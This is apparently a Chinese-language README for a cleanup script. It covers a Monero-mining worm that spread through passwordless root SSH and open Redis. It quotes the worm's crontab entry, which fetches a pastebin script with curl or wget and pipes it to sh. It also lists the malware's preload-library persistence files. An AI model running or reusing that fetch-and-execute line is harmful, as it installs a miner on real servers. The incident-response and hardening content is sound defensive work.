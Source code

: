 ##virus_clean 

##背景

20190409 晚上阿里云邮件预警提示有服务器不断向其他服务器发送6379，22端口的请求，同时封闭了该服务器的端口，后来确认是门罗币挖矿病毒。 该病毒可以通过免密钥登录的方式无限复制，只要中招服务器有对应的免密钥登录到其他服务器的配置，都会被感染。

##表现


`
[root@dev-us-api ~]# crontab -l
`

*/15 * * * * (curl -fsSL https://pastebin.com/raw/v5XC0BJh||wget -q -O- https://pastebin.com/raw/v5XC0BJh)|sh

crontab中的任务删除过段时间会自动创建（其实后来发现是基于预加载库的拦截，每次执行ls ll 等命令都会刷新这个任务计划，木马会重新写入）
有的服务器top可以看到占用cpu较高的应用有的服务器看不到
ps  看不到对应进程

尝试建立大量的22、6379端口请求


##传播途径：

1. root的免密钥登录（我是这个）
2. 还有一个redis的无密码登录（网上其他有人因为这个中）
3. jenkins 漏洞侵入


##处理流程

我查了很多资料后来找到一个busybox 工具，这个工具可以无依赖的让你使用操作系统常用的命令比如ps ls rm kill netstat 等等。可以用这些命令来查询被隐藏或者你差不到的应用。

1. ###确定请求地址：
 	pastebin.com，所以我在安全组里直接封掉了这个网站的所有请求，或者可以通过本地hosts的方式将这个网址解析为本机等等都可以

2. ###安全加固：
	默认这个病毒是通过22ssh 端口传染，所以ssh服务 的端口不能是默认，需要修改一个其他端口。关闭root登录，修改/etc/ssh/sshd_config 中PermitRootLogin yes 改为no。
	
	redis 尽量不要绑定到0.0.0.0 改为内网ip或者127.0.0.1，同时设置RequirePass 密码


3. ###删除木马
	核心的两个病毒文件（别急着删除，这里需要用busybox 去删除，直接rm 去删除的话，当你执行ls之类的命令，木马会重新被执行）
 	/etc/ld.so.preload 
 	/usr/local/lib/libpamcd.so
 
	其他病毒文件
		rm -f /etc/cron.d/tomcat
		rm -f /etc/cron.d/root
		rm -f /var/spool/cron/
		rm -f /tmp/ld.so.preload* 	
4. ###清理进程

	这里需要busybox，busybox 安装比较麻烦（而且不同的发行版编译的时候会遇到各种问题），我这里直接把命令放在版本库里了，直接git clone ，执行脚本即可。
	脚本我已经整理好了.
	脚本里面包含我遇到的 kerberods和khugepageds 两个木马进程和我其他服务器中招的kthrotlds，剩下的就是其他人遇到的我也整理进来，其他木马 可以通过busybox ps aux 来查看 ，基本从/tmp 启动的进程都是有问题的，所以可以仔细检查，看脚本的执行流程来删除掉就可以了
	
	最后需要重启（手动）。
##使用方法
	`cd /usr/local/src`

	`git clone https://github.com/unixtommy/virus_clean.git`

	`cd virus_clean`

	`sh virus_clean.sh`

	重启


附：比较感谢这个朋友，我主要参考了他的做法，而且他的情况跟我类似，也不完全类似，但是差不多了。

[Linux 挖矿病毒 khugepageds的处理](https://www.wangdb.com/archives/1599.html)
https://www.wangdb.com/archives/1599.html
